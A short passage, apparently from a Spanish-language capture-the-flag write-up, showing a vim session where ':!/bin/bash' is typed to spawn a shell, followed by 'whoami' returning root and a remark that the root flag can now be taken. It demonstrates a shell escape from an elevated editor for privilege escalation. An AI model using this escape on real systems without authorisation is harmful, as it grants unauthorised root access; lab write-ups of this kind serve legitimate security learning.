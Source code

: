 ```shell
~                                                                                                                                                          
~                                                     type  :q<Enter>               to exit                                                                
~                                                     type  :help<Enter>  or  <F1>  for on-line help                                                       
~                                                     type  :help version7<Enter>   for version info                                                       
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
:!/bin/bash
```

Ahora ya somos root y ya podremos coger la flag de root
```shell
root@Machine:~# whoami
root
```

